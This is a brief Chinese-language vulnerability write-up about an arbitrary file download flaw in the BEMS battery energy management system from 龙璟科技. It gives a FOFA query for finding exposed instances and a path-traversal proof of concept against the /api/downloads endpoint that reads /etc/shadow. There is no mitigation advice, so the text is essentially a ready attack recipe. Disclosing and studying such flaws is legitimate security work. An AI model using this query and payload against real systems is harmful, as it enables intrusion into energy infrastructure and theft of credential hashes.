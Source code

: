 # 龙璟科技 电池能量BEMS downloads 任意文件下载漏洞

## 漏洞描述

龙璟科技 电池能量BEMS 存在接口可任意文件下载获取服务器任意文件信息

## 漏洞影响

```
龙璟科技 电池能量BEMS
```

## FOFA

```
title=电池能量管理系统 BEMS
```

## 漏洞复现

登陆页面

![img](./images/202202101906850.png)

验证POC

```plain
/api/downloads?fileName=../../../../../../../../etc/shadow
```

![img](./images/202202101906628.png)